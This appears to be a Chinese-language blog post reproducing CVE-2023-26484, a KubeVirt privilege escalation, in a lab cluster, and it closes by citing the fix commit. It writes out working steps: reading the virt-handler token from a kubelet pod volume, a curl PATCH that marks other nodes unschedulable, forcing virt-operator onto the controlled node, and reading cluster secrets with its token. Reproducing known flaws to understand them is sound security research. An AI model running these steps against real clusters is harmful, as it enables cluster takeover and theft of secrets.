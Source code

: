 ```yaml
---
title: CVE-2023-26484 Kubevirt 权限提升漏洞复现
date: 2024-04-30T20:29:05+08:00
categories: 
  - 安全研究
---
```


该漏洞是论文工作 "Take Over the Whole Cluster: Attacking Kubernetes via Excessive Permissions of Third-party Applications" 挖掘到的, 对其进行复现可以更好地理解rbac的潜在风险.

<!--more-->

# CVE-2023-26484 Kubevirt 权限提升漏洞

## 简介

KubeVirt 是 Kubernetes 的虚拟机管理插件. 在 0.59.0 及之前的版本中, 如果恶意用户接管了运行 virt-handler 的 Kubernetes 节点, 则 virt-handler 服务账户可用于修改所有节点.这可被滥用于诱骗系统级特权组件. 这样, 被入侵的节点就可以被用来提升节点之外的权限, 直到可能拥有对整个集群的完全权限访问. 一旦用户可以入侵特定节点, 最简单的利用方法就是使用 virt-handler 服务账户将所有其他节点设置为不可调度, 然后等待具有高权限的系统关键组件出现在其节点上.


## 环境搭建

参考kubevirt的官网安装

```sh
export VERSION="v0.59.0"
kubectl create -f https://github.com/kubevirt/kubevirt/releases/download/${VERSION}/kubevirt-operator.yaml
kubectl create -f https://github.com/kubevirt/kubevirt/releases/download/${VERSION}/kubevirt-cr.yaml
```

## 复现

从简介中就可以对这个漏洞的作用机理有一个大概的了解, 那么复现的步骤大致分为以下步骤:

1. 获取一个节点的权限, 上面有virt-handler, 由于virt-handler是Daemonsets资源, 因此一定存在
2. 拿到virt-handler的SA Token, 然后向API Server发送请求去 patch 其他节点, 让新创建的容器无法被调度到这些节点上
3. 删除其他节点上的高权限pod, 在这个漏洞中, 我们可以利用virt-operator pod, 它的cluster role具有list 和 get secret的权限
4. 等待高权限pod被重新创建到攻击者控制的节点上
5. 使用高权限pod的SA, 获取集群权限

为了复现完整的流程, 最开始的时候让virt-operator不要出现在自己的节点上. 由于我复现用的集群有三个节点, 而virt-operator的默认replicas是2, 因此修改`kubevirt-operator.yaml`中的相应选项并apply, 最后得到

```
NAME                               READY   STATUS    RESTARTS       AGE
virt-api-695695c8bf-9jsjk          1/1     Running   1 (129m ago)   23d
virt-api-695695c8bf-fljvr          1/1     Running   1 (129m ago)   23d
virt-controller-6b8dbbd8c5-q7vf8   1/1     Running   1 (129m ago)   23d
virt-controller-6b8dbbd8c5-x8jcb   1/1     Running   1 (129m ago)   23d
virt-handler-j4qkf                 1/1     Running   1 (129m ago)   23d
virt-handler-ncpwp                 1/1     Running   1 (129m ago)   23d
virt-operator-5d5bdf9c5b-lzsmr     1/1     Running   2 (129m ago)   23d
```

接下来, 登录没有virt-operator的节点来模拟攻击者控制该节点的场景. 我的集群使用containerd作为容器引擎, 查看节点上的容器

```
❯ ctr -n k8s.io c ls
CONTAINER                                                           IMAGE                                                   RUNTIME
018b6f216241def706bf49b2cbe0136d26a9440ec44fba5ff9158f9c64449f77    registry.k8s.io/pause:3.6                               io.containerd.runc.v2
03bc2c88f4e7f0b748cbff9e74469886125ec7857385750dd6962547fc2c94dd    registry.k8s.io/pause:3.6                               io.containerd.runc.v2
2e34f1411a95334edbb18df3bfd6dd860c8369d19eb41efef66fd4aa75664ef7    registry.k8s.io/pause:3.6                               io.containerd.runc.v2
3cad963e8764d3b57754dc8723e2dce8e7793c388b9a74083fd54ced88595ae3    docker.io/flannel/flannel:v0.24.3                       io.containerd.runc.v2
3df18a38c2398324f3836bb0fbe99f55775f641559fde6a9f57247d9d13be913    quay.io/kubevirt/virt-api:v0.59.0                       io.containerd.runc.v2
45a7feb9dabff6a8200ccf37f6da7c01d7f689b866127921f1b1c37d825fdeda    quay.io/kubevirt/virt-handler:v0.59.0                   io.containerd.runc.v2
4db25b7315ee957434ce455fd8de25c499e83ad521cb53f125fa436e5b50ad22    quay.io/kubevirt/virt-api:v0.59.0                       io.containerd.runc.v2
5c26a0f3b233eadb1f46382def64ee0401b8cc19c1dda80f60ad131b1e3f821d    registry.k8s.io/kube-proxy:v1.25.16                     io.containerd.runc.v2
688a35b84fc0ce7bd68e02928eb4e22728559e41977a4d2a5e108f6865c5f3c6    quay.io/kubevirt/virt-controller:v0.59.0                io.containerd.runc.v2
6e6eab0c1ede3d083283f8d96758bc898a81ceb472349e04a38c3bf6042c3bfb    quay.io/kubevirt/virt-controller:v0.59.0                io.containerd.runc.v2
836f05ead0f47d570373917f2315111a85104c36e2e2f700aa5949dac1963ec6    registry.k8s.io/pause:3.6                               io.containerd.runc.v2
8f26e2c39123230330328ab931a517d334c83d92dad0b637c6522217cf7d9482    registry.k8s.io/pause:3.6                               io.containerd.runc.v2
8f4c6b146eeea6b6f994f2deb5adc6d938ec79afb00cb71e7491b8b6e98359f6    registry.k8s.io/pause:3.6                               io.containerd.runc.v2
90cc829dd1102778df74b9616dcef5061476d4a2b04660ee9ba23f34fbfdbaab    quay.io/kubevirt/virt-launcher:v0.59.0                  io.containerd.runc.v2
a4b93524451f68c41efa103e432622113c4909979c5d7ac538eede7455b6bfaa    registry.k8s.io/kube-proxy:v1.25.16                     io.containerd.runc.v2
b23ac35d5a9639ec75a923af74b9f6ed571c89a9a59ad037424fb829a39a73f1    docker.io/flannel/flannel-cni-plugin:v1.4.0-flannel1    io.containerd.runc.v2
bc71642c1b0228d2ed22e92c817d1eed581ef6179e25da5ba14b69df43251166    docker.io/flannel/flannel:v0.24.3                       io.containerd.runc.v2
c47082251d14b8e743d41ace290bd64923b704afb9e4e9193d7ad2e6b120f176    quay.io/kubevirt/virt-handler:v0.59.0                   io.containerd.runc.v2
c64079c284e3ce04c261ef192bb1a29a341f0e359dd8c0f0f5678748beaac846    registry.k8s.io/pause:3.6                               io.containerd.runc.v2
ce128301b8f46a6e68711355780ff22389507e62b19ae987cbe6fdbda7fbdc58    registry.k8s.io/pause:3.6                               io.containerd.runc.v2
d80cb0fc9991d5a0ba8bf565cd1ddc94273cfb50c2b56fb883f455193a1cab00    registry.k8s.io/pause:3.6                               io.containerd.runc.v2
e253d834e57f7ee5ae3116e5e922aac2efda2e4475bf79de044b71666191f0c2    registry.k8s.io/pause:3.6                               io.containerd.runc.v2
e983fef8d9a9556f82c81008e8efbfcd432781c48c078db6d36ef72650d0f6e4    docker.io/flannel/flannel:v0.24.3                       io.containerd.runc.v2
```

然后要找virt-handler的sa token, 在这次复现中, sa token的位置在`/var/lib/kubelet/pods/3b42aafd-8696-4077-a903-6f575e7c4784/volumes/kubernetes.io~projected/kube-api-access-dc92g` 下面, 然后使用这个token对其他节点进行patch

```sh
curl -k -X PATCH -H "Authorization: Bearer <sa-token>" \
     -H "Content-Type: application/json-patch+json" \
     -d '[{"op": "replace", "path": "/spec/unschedulable", "value": true}]' \
     "https://<api-server-address>/api/v1/nodes/<node>"
```

然后手动删除`virt-operator`

```sh
kubectl delete po virt-operator-5d5bdf9c5b-lzsmr
```

稍等片刻就可以看到`virt-operator`重新出现在了我们控制的节点上, 使用命令来查看sa token的具体位置

```sh
ctr -n k8s.io c ls
ctr -n k8s.io c info <container-id>
```

然后用这个token去查看secrets, 以kubevirt中的secrets为例, 发送请求即可读取.

```sh
curl -k -H "Authorization: Bearer <sa-token>" https://192.168.59.101:6443/api/v1/namespaces/kubevirt/secrets
```

## 修复

限制了operator对secret的访问范围, [修复的commit](https://github.com/kubevirt/kubevirt/pull/9162/commits/d43ab4ea6b74ae0c3f2e607da111d376bf58240c)
